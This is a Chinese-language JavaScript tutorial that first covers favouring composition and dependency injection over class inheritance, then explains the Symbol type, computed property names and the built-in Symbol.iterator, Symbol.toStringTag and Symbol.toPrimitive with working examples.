**场景**：解耦服务模块（如日志系统）

```javascript
// 日志模块（独立）
class Logger {
  log(message) {
    console.log(`[LOG] ${message}`);
  }
}

// 业务服务（依赖注入）
class UserService {
  constructor(logger) {
    this.logger = logger;
  }

  createUser(name) {
    this.logger.log(`创建用户: ${name}`);
    // ...业务逻辑
  }
}

// 装配
const logger = new Logger();
const userService = new UserService(logger);
userService.createUser('张三');
```

**为什么推荐**：

- 比继承更明确的依赖关系
- 方便 Mock 测试（**用假的实现替换真实依赖，让你能单独测试某个功能而不用管它的依赖是否就绪，真实情况：依赖数据库（可能还没开发完）,Mock 测试：用假数据替代**）
- Angular/NestJS 的 DI 思想基础

### 组合模式 + 递归（树形结构专用）

**场景**：菜单/权限树形结构

```javascript
function createMenu(name, children = []) {
  return {
    name,
    children,
    add(child) {
      this.children.push(child);
      return this;
    },
    print() {
      console.log(this.name);
      this.children.forEach(child => child.print());
    }
  };
}

// 理解这个代码，你就理解怎么创建树形结构了。
const A = createMenu('A');  // A.children = []
const B = createMenu('B');  // B.children = []
A.add(B);  // 现在 A.children = [B]

// 构建树形结构
const menu = createMenu('主菜单')
  .add(createMenu('用户管理')
    .add(createMenu('新增用户'))
    .add(createMenu('删除用户'))
  )
  .add(createMenu('订单管理'));

menu.print();
```

**为什么推荐**：

- 比继承实现的树形结构更灵活
- 符合前端路由/菜单的实际需求
- 递归组合天然适合树形数据

### 现代开发的核心原则

1. **拒绝 extends**：除非是极其稳定的 is-a 关系（如 Error 子类）
2. **组合对象 > 组合函数 > 类继承**：优先级顺序
3. **保持扁平化**：嵌套层级不超过 2 层

**现代 JavaScript/TypeScript 的三大设计原则**，很实用的经验总结：

**拒绝 extends**

```javascript
// ❌ 避免
class UserService extends BaseService {
  // 一旦BaseService变化，这里可能崩
}

// ✅ 推荐  
class UserService {
  constructor(httpClient) {
    this.httpClient = httpClient; // 组合而不是继承
  }
}
```

---

**组合优先级**

```javascript
// 1. 组合对象 ✅ (最推荐)
const userService = {
  ...logging,      // 混入日志能力
  ...validation,   // 混入验证能力
  ...apiClient     // 混入请求能力
};

// 2. 组合函数 ✅  
// 就是传依赖进去，返回一个有方法的对象
function createUserService(deps) {
  return {
    getUser: function() {
      return deps.api.get('/user');
    }
  };
}

// 3. 类继承 ❌ (最后考虑)
class UserService extends BaseService {}
```

---

**保持扁平化**

```javascript
// ❌ 嵌套太深
person.home.address.city.name = "北京";

// ✅ 保持扁平  
person.city = "北京";
person.address = { ... };

// 就是把 a.b.c.d 拆成平级的属性，别套太多层。
```

**核心思想：** 用乐高积木式组合代替刻板的继承 hierarchy。


# Symbol类型详解

`Symbol` 是 JavaScript 中的一种基本数据类型，它在 **ES6（ECMAScript 2015）** 中被引入，主要用于创建唯一的、不可变的值，通常用作对象属性的键，以避免属性名冲突。

## Symbol 的主要作用

1. **唯一性**：每个 `Symbol` 值都是唯一的，即使它们的描述相同。
2. **防止属性名冲突**：可以用作对象的属性名，避免被意外覆盖。
3. **内置 Symbol 值**（如 `Symbol.iterator`）用于定义对象的默认行为（如迭代器）。

## 计算属性名语法

```javascript
const key = 'name';
const obj = {
  [key]: 'Alice' // 相当于 { name: 'Alice' }
};
```

使用 `<font style="color:rgb(64, 64, 64);">[]</font>` 表示这是一个 **动态计算的属性名**，可以接受变量、表达式或 Symbol。

计算结果是一个字符串，这个字符串作为属性名。

## 创建 Symbol

```javascript
const sym1 = Symbol();
const sym2 = Symbol("description"); // 可选的描述字符串（仅用于调试）
const sym3 = Symbol("description");

console.log(sym1 === sym2); // false，即使描述相同，Symbol 也是唯一的
console.log(sym2 === sym3); // false
```

初学者会感觉很奇怪，适应了就好了，就把`Symbol("id")`看做是一个独一无二的值就行了。

注意，`Symbol("id")`是绝对独一无二的，在同一个程序中，假设出现两次，则代表两个不同的值。

## 用作对象属性

当使用 **Symbol 值作为对象属性的键**时，需要用 **中括号 **`**<font style="color:rgb(64, 64, 64);">[]</font>**` 括起来，这是因为 Symbol 是一种 **唯一且不可变** 的数据类型，不能直接作为字符串键使用。这种语法 **不是数组**，而是 **计算属性名 **的语法。

```javascript
const user = {
  name: "Alice",
  age: 25,
  [Symbol("id")]: "123" // Symbol 作为属性名
};

console.log(user); // { name: "Alice", age: 25, [Symbol(id)]: "123" }

// 普通方式无法访问 Symbol 属性
console.log(user[Symbol("id")]); // undefined，因为每次 Symbol("id") 都是新的

// 正确访问方式：先存储 Symbol，再使用
const idSym = Symbol("id");
const obj = { [idSym]: "123" };
console.log(obj[idSym]); // "123"
```

提醒：使用`Symbol`作为对象属性的键时，访问对象属性时不能使用`.`语法，必须通过`[]`访问。

**防止属性名冲突：**

```javascript
const library = {
  books: ["Book1", "Book2"],
  [Symbol("books")]: ["Secret Book"], // 避免与普通 books 冲突
  [Symbol("books")]: ["Secret Book"],
  [Symbol("books")]: ["Secret Book"]
};

console.log(library.books); // ["Book1", "Book2"]
console.log(Object.keys(library)); // ["books"]，Symbol 属性不会被遍历
```

## 内置 Symbol

JavaScript 提供了一系列 **内置 Symbol**，用于控制对象的内部行为（如迭代、类型转换等）。

常用的包括三个：`<font style="color:rgb(64, 64, 64);">Symbol.iterator</font>`、`<font style="color:rgb(64, 64, 64);">Symbol.toStringTag</font>`、`<font style="color:rgb(64, 64, 64);">Symbol.toPrimitive</font>`

### Symbol.iterator

定义对象的默认迭代器（用于 `<font style="color:rgb(64, 64, 64);">for...of</font>`、`<font style="color:rgb(64, 64, 64);">...</font>` 展开等），主要是为了让 **自定义对象也能像数组、字符串等内置可迭代对象一样。**

---

**让对象支持 **`**<font style="color:rgb(64, 64, 64);">for...of</font>**`** 循环**

JavaScript 的 `<font style="color:rgb(64, 64, 64);">for...of</font>` 循环默认只能遍历 **可迭代对象**（如 `<font style="color:rgb(64, 64, 64);">Array</font>`、`<font style="color:rgb(64, 64, 64);">Map</font>`、`<font style="color:rgb(64, 64, 64);">String</font>`）。如果想让自定义对象也能被遍历，就需要实现 `<font style="color:rgb(64, 64, 64);">Symbol.iterator</font>`。

---

**支持 **`**<font style="color:rgb(64, 64, 64);">...</font>**`** 展开和解构**

可迭代对象可以使用 **展开运算符（**`<font style="color:rgb(64, 64, 64);">...</font>`**）** 或 **解构赋值**：

---

**兼容 JavaScript 内置方法**

许多 JavaScript API（如 `<font style="color:rgb(64, 64, 64);">Array.from()</font>`、`<font style="color:rgb(64, 64, 64);">new Set()</font>`）要求传入的数据是 **可迭代的**。定义 `<font style="color:rgb(64, 64, 64);">Symbol.iterator</font>` 可以让你的对象直接使用这些方法：

```javascript
const arr = Array.from(myObject); // [10, 20, 30]
const set = new Set(myObject);    // Set {10, 20, 30}
```

---

**统一集合数据的访问方式**

JavaScript 的 **迭代协议**（Iterable Protocol）提供了一种标准方式，统一了集合数据的访问方式，JS 中没有提供链表数据结构，如果我们自己手写一个链表的话，就可以使用 Symbol.iterator 编写迭代规则

---

**与生成器（Generator）结合**

`<font style="color:rgb(64, 64, 64);">Symbol.iterator</font>` 可以和生成器函数结合，简化迭代器定义。生成器函数会自动返回一个符合迭代器协议的对象，并且不需要手动管理 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">next()</font>**` 方法的逻辑。

```javascript
const range = {
  from: 1,
  to: 5,
  *[Symbol.iterator]() { // 生成器语法
    for (let i = this.from; i <= this.to; i++) {
      yield i;
    }
  }
};

console.log([...range]); // [1, 2, 3, 4, 5]
```

### Symbol.toStringTag

Symbol.toStringTag 是 JavaScript 中用于自定义对象类型标签的高级特性。在需要精确控制对象类型标识时，优先考虑它而非 instanceof 或 constructor。

调用 Object.prototype.toString() 时，返回 [object **类型**]（如 [object Object]、[object Array]）。通过 Symbol.toStringTag 属性，可以修改这个 **类型** 部分，使自定义对象返回更语义化的标签。

**默认情况：**

```javascript
const obj = {};
console.log(Object.prototype.toString.call(obj)); // [object Object]

const arr = [1, 2];
console.log(Object.prototype.toString.call(arr)); // [object Array]
```

**自定义 Symbol.toStringTag：**

```javascript
class MyClass {
  get [Symbol.toStringTag]() {
    return 'MyCustomClass';
  }
}

const instance = new MyClass();
console.log(Object.prototype.toString.call(instance)); // [object MyCustomClass]
```

### Symbol.toPrimitive

当 JavaScript 需要将对象转为原始值（如字符串、数字）时，会自动调用 `Symbol.toPrimitive` 方法（如果存在）。它允许开发者定义对象在以下场景的转换逻辑：

- **数学运算**（如 `obj + 10`）
- **字符串拼接**（如 `"Value: " + obj`）
- **宽松相等比较**（如 `obj == 1`）
- **显式转换**（如 `Number(obj)`、`String(obj)`）

#### 基本语法

对象可以通过定义 `[Symbol.toPrimitive]` 方法来控制转换行为：

```javascript
const obj = {
  [Symbol.toPrimitive](hint) {
    // hint 可能是 'string'、'number' 或 'default'
    if (hint === 'number') return 42;
    if (hint === 'string') return 'Hello';
    return 'default';
  }
};
```

#### 参数 `hint` 的取值

| `**hint**`** 值** | **触发场景示例** |
| --- | --- |
| `'string'` | `String(obj)` |
| `'number'` | `Number(obj)`、`+obj`、数学运算 |
| `'default'` | `obj + 'abc'`、`==` 比较 |

#### 自定义对象的数学运算

```javascript
class NumberBox {
  constructor(value) {
    this.value = value;
  }

  [Symbol.toPrimitive](type) {
    if (type === 'number') return this.value;
    if (type === 'string') return `${this.value}度`;
    return this.value; // 默认情况
  }
}

const box = new NumberBox(25);

console.log(+box);      // 25 (当成数字)
console.log(`${box}`);  // "25度" (当成字符串) 
console.log(box + 5);   // 求和
```

#### 控制对象的字符串拼接

```javascript
const user = {
  name: 'Alice',
  age: 30,
  [Symbol.toPrimitive](hint) {
    return hint === 'string' ? this.name : this.age;
  }
};

console.log(String(user)); // "Alice" (hint: 'string')
console.log(+user);        // 30 (hint: 'number')
console.log(user + 10);    // 40 (hint: 'default')
```

## Symbol 的特点

- **不可枚举**：`Symbol` 属性默认不会出现在 `for...in`、`Object.keys()` 、 `JSON.stringify()`、`<font style="color:rgb(64, 64, 64);">Object.getOwnPropertyNames()</font>` 中。
- **可通过 **`Object.getOwnPropertySymbols()`** 获取**：

```javascript
const sym = Symbol("key");
const obj = { [sym]: "value" };
console.log(Object.getOwnPropertySymbols(obj)); // [Symbol(key)]
```

**只有知道**`**<font style="color:#DF2A3F;">sym</font>**`**这个名字的人才能通过**`**<font style="color:#DF2A3F;">obj[sym]</font>**`**再次访问到该属性，因此Symbol语法可以模拟私有属性（不是真正的私有，只是隐藏）**

## 跨模块共享 Symbol

`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Symbol.for()</font>**` 会先检查全局注册表，如果已存在相同描述的 Symbol，则直接返回它；否则新建一个并注册：

慎用：仅在需要全局共享时使用，否则优先用 Symbol()。

```javascript
const sym3 = Symbol.for('foo'); // 创建并注册
const sym4 = Symbol.for('foo'); // 从注册表获取
console.log(sym3 === sym4); // true（全局唯一）
```

**跨模块共享 Symbol：**

模块 A.js

```javascript
export const sharedSymbol = Symbol.for('APP_KEY');
```

模块 B.js

```javascript
import { sharedSymbol } from './A.js';
console.log(sharedSymbol === Symbol.for('APP_KEY')); // true（跨模块共享）
```

`**Symbol.keyFor()**`根据全局 Symbol 返回其描述

```javascript
const sym = Symbol.for('foo');
console.log(Symbol.keyFor(sym)); // "foo"（获取描述）

//非全局 Symbol 无法检索：用 Symbol() 创建的 Symbol 无法通过 Symbol.keyFor() 获取描述。
console.log(Symbol.keyFor(Symbol('foo'))); // undefined（非全局 Symbol）
```